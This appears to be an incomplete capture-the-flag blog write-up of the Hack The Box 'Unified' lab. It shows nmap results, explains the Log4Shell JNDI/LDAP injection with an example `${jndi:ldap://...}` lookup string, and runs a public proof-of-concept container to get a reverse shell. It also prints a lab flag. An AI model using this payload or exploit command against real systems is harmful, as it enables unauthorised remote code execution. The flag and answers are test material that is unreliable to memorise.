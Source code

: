 ```yaml
---
title: 'Unified - HTB Starting Point Tier 2'
description: 'Writeup for Unified box'
pubDate: 'Feb 8 2025'
heroImage: '/blog-placeholder-3.jpg'
---
```



## Unified
*MongoDB, Java, Code Injection*

The final Starting Point on the free tier! This is a momentous occasion. 

**Task 1**  
Which are the first four open ports?  

```bash
nmap -sC $TARGET --min-rate=2000 -oN nmap.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 20:16 AEDT
Nmap scan report for 10.129.96.149
Host is up (0.34s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to https://10.129.96.149:8443/manage
8443/tcp open  https-alt
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage

Nmap done: 1 IP address (1 host up) scanned in 18.31 seconds
```

22,6789,8080,8443

**Task 2**  
What is the title of the software that is running running on port 8443?  

Unifi Network

**Task 3**  
What is the version of the software that is running?  

Navigating to the web app, we see `6.4.54`


**Task 4**  
What is the CVE for the identified vulnerability?  

A quick search of "Unifi Network 6.4.54 cve" leads us to a github repo to exploit the log4j vulnerability `CVE-2021-44228`


**Task 5**  
What protocol does JNDI leverage in the injection?  

LDAP.

This [Cloudflare blog](https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/) specifies that LDAP was the primary focus of the CVE. FRom this blog, it looks like the JNDI interface could load up an arbitrary Java object via LDAP, e.g. `ldap://localhost:389/0=JNDITutorial` finds the JNDITutorial object from the local LDAP server and parses the object to read attributes. If you can control the LDAP URL, you can load up arbitrary objects in a Java runtime environment, and thus is the focus of this vulnerability.

Log4j contained a syntax that allowed the evaluation of a value to place into logs. It took the format `${prefix:name}`. `prefix` would specify the lookup to use, and the `name` would be the target of evaluation. e.g. `${java:version}` to retrieve the java version. Thus if an attacker could get log4j to write `${jndi:ldap://example.com/a}`, then log4j will try and resolve the object from that ldap server - this was added in Log4J2-313. A user-agent is a common field that gets logged.


**Task 6**  
What tool do we use to intercept the traffic, indicating the attack was successful?  

`tcpdump`


**Task 7**  
What port do we need to inspect intercepted traffic for?  

`389` as the LDAP port


**Task 8**  
What port is the MongoDB service running on?  

Default port is 27017. 


It seems that we want machine access at this point. I tried to capture the traffic in tcpdump and wireshark, but since it's using TLS the data is encrypted. I could spend time setting that up, or the writeup just suggests to use a proxy like burpsuite. I will dive in and try to use burpsuite for the first time. A learning experience! 

Reading [this](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) article from Sprocket security  
> The vulnerability is in the `rememberme` value issued in the login request
>
> ```
> {"username":"asdf","password":"asdfas","remember":"<PAYLOAD>","strict":true}
> ```

In this situation, I will try and use the POC published by `puzzlepeaches`, found [here](https://github.com/puzzlepeaches/Log4jUnifi?tab=readme-ov-file)

... one docker install later ...

```bash
kali$ docker run -it -v $(pwd)/loot:/Log4jUnifi/loot -p 8090:8090 -p 1389:1389 log4junifi \ 
-u https://$TARGET$:8443 -i <my IP> -p 4444
```

Success! We now have a foothold.

![JNDI exploit success using the log4junifi poc](/public/img/blog/htb-starting-point/unified-jndi-exploit.png)

> Learning opportunity
> TODO: Research how the exploit works. Beyond just the vulnerable field. The rogue JNDI stuff would be cool to understand


Once a reverse shell was obtained, we can run `ps aux | grep "mongo"` to find the db is running on port `27117`. 


**Task 9**  
What is the default database name for UniFi applications?  

Now that we know mongo is running, there should be a cli tool to interact with it. We should be able to determine the available db names, users, etc. as we continue to work through the [article](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi)


**Task 10**  
What is the function we use to enumerate users within the database in MongoDB?  


**Task 11**  
What is the function we use to update users within the database in MongoDB?  


**Task 12**  
What is the password for the root user?  


**Task 13**  
Submit user flag  

Once obtaining a reverse shell in task 9, we find the flag in `/home/michael/user.txt`:  
`6ced1a6a89e666c0620cdb10262ba127`


**Task 14**  
Submit root flag  






echo \
  "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.asc] https://download.docker.com/linux/debian \
  $(. /etc/os-release && echo "$VERSION_CODENAME") stable" | \
  sudo tee /etc/apt/sources.list.d/docker.list > /dev/null